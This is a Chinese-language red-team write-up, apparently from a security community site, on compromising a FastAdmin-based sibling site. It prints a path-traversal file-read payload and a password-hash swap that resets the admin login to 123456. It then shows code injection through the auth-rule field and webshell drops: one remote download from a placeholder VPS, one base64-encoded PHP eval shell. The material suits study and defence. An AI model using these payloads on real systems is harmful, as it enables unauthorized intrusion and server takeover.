# 既然所给资产攻破无果，那就转旁站GetShell获取权限-先知社区

> **来源**: https://xz.aliyun.com/news/18405  
> **文章ID**: 18405

---

## 0x00 文章背景

一次攻防实战记录，从给定的二级路径资产，到发现主域名下面官网站是CMS搭建，最后通过旁站实现GetShell。这到底是什么操作？充满了疑问，让我们往下看看！



PS：由于目标相关问题已修复，而且报告中的截图内容并不会像写文章这么详细。所以后面的内容中，有部分截图是来自于我还原的漏洞环境中的截图**。**

## 0x01 官网竟是CMS

这次攻防呢，是给了一堆资产那种，接着就看谁打的快了。于是某一天，一个阳光不太明媚的下午，我正好就打开了这个资产。这个资产的格式是这样的，带一个二级路径：http://ww.baidu.com/cpdd


那么很显然没有验证码，我直接起手就是爆破，想都不用想，没跑出来弱口令账户。


哎，爆破失败，接着我把二级路径删除，来到了根目录下面（很遗憾，官网当时没截图，再见已经被关站）。为了不影响文章内容并且锻炼团队成员的技能，我根据此次攻防过程还原了漏洞环境：



好的没毛病，接下来我随手一敲路径文件，他一个报错出来：



大声告诉我这是什么CMS？没坐！就是它，Fastadmin：



那么知道的都知道了，Fastadmin有一个任意文件读取漏洞：

```
/index/ajax/lang?lang=../../application/database
```



我勒个去，失败了，正常情况下，如果存在任意文件读取的话，根据上面的Payload我们可以成功读取到数据库配置文件。但如果直接报错NotFound或者读出来的东西不是数据库配置文件，那就说明他没有任意文件读取漏洞。

## 0x02 旁站任意文件读取

既然官网行不通，我们搜一下资产。这不搜不知道，一搜直接给我爽到了：



旁站也有一个Fastadmin搭建的站，而且旁站这个有任意文件读取：



接下来，掏出来Navicat一连，成功，那爽到了：



## 0x03 获取后台路径

在Fastadmin较老的版本中，安装之后的后台地址默认通过admin.php访问，然后会重定向加载后台资源，但是这个可以通过手动修改文件名进行更改：



那么，旁站这个系统的后台入口文件是被手动更改过的。但是没关系，连接数据库后我们可以查看目标系统对应库中的表：fa\_admin\_log ，这里面记录了所有跟后台有关的操作记录，包括访问日志：



获得入口文件后，我们直接访问，成功来到后台登录页：



## 0x04 获取管理员密码

在fa\_admin表中，可以看到用户密码是加密保存的，而且是：密文+salt的形式，同时在cmd5未查询到记录。不过无所谓，既然咱们已经拥有数据库了，我们可以直接替换原密文：



这里有一个需要注意的点，因为攻防的系统一般是真实系统，防止影响系统所有者的正常使用，在替换前我们先保存记录一下原密文与salt：

```
8de4d640da67a975aaa6b08c6001aea0:34512a
```

接着，通过搜索内容得知，在Fastadmin忘记密码时，可更改密文为：c13f62012fd6a8fdf06b3452a94430e5，salt为：rpR6Bv，此时相关用户密码会重置为：123456



此时，直接使用：123456，即可登入后台：



登录完成后，我们在数据表中将密文重新更改为原密文即可。

## 0x05 GetShell手法

### GetShell方法一

在更老的Fastadmin版本中，可以通过上传一个后台插件进行GetShell。这个插件的功能是提供在线文件管理，这意味着我们可以通过这个插件直接在后台对文件进行编辑：

```
https://github.com/WenchaoLin/Filex
```



这个不用想了，Fastadmin现在的版本无法再安装这个插件了。不过官网貌似有一个这种插件，但是是付费的。也就是说你需要注册登录Fastadmin会员，然后再购买这个插件：



那么我的建议是直接放弃这个方法，用另外一种手法。

### GetShell方法二

这个方法，我们首先需要配置权限规则：



而且必须编辑 权限管理，也就是auth的，然后在规则条件中插入代码。需要注意的是，如果你插入的内容是完整的、满足php结构格式的代码，那么会无法正常保存：





但实际上，你再打开编辑的话，会发现其实直接被过滤掉了：



所以在这里我们只能插入代码，单纯的php相关函数代码。

#### 步骤1：phpinfo获取信息

在规则条件处，直接插入phpinfo()即可：



#### 步骤2：新建管理员，登录触发

配置完成规则后，我们来到新增管理员，这里必须选择二级管理员组：



新增完成后，使用此账号登录后台，触发代码：



#### 步骤3：获取网站路径

想要GetShell的必备条件，那就是得知道网站的绝对路径。所以我们优先配置phpinfo然后让它触发，接下来利用它来获取网站绝对路径，搜索document\_root即可：



#### 步骤4：写入Webshell

首先，不管是哪个小手法，都需要用到两个函数：

1、file\_put\_contents：简单来说，这个函数用于新建文件然后把内容写进去；

2、file\_get\_contents：简单来说，这个函数用于读取文件内容，单配使用的话就是它读取内容后可以传给put去新建文件。



##### ①远程下载手法

如果大家在网上搜索相关教程的话，基本上这个手法介绍的都是远程下载：



也就是在你的VPS上开启一个http服务，然后在路径下放入Webshell：



再使用下面的代码实现远程下载，填入在规则条件处：

```
file_put_contents('C:/Nee_Phpstudy/phpstudy_pro/WWW/faaaa.com/public/shell.php',file_get_contents('http://xxxx/xxxx.php'))
```


二级管理员进入后台即会触发代码，然后实现远程下载：



访问下载的Shell并尝试连接，成功：





##### ②编码分批写入

在没有VPS或当时没有VPS使用的情况下，我们可以使用此方式。那么，根据前面内容我们可以得知在规则条件处无法直接填入符合php结构的代码，所以先对代码进行base64编码：



然后将编码后的内容使用函数写入，写进一个文本：

```
file_put_contents('C:/Nee_Phpstudy/phpstudy_pro/WWW/faaaa.com/public/base.txt','PD9waHAgQGV2YWwoJF9QT1NUWydjbWQnXSk7ID8+')
```



二级管理员触发后，访问文本是否存在：



OK没问题，接下来我们重新解码读取重新写入：

```
file_put_contents('C:/Nee_Phpstudy/phpstudy_pro/WWW/faaaa.com/public/xlzshell.php',base64_decode(file_get_contents('C:/Nee_Phpstudy/phpstudy_pro/WWW/faaaa.com/public/base.txt')))
```

这段代码的区别是，多使用了一个base64解码函数，对文本中的base64编码内容解码再进行读取，然后将读到的内容传给put进行文件新建：


访问新生成的Shell文件，并尝试连接：



  
 O了，下机了各位师傅们。
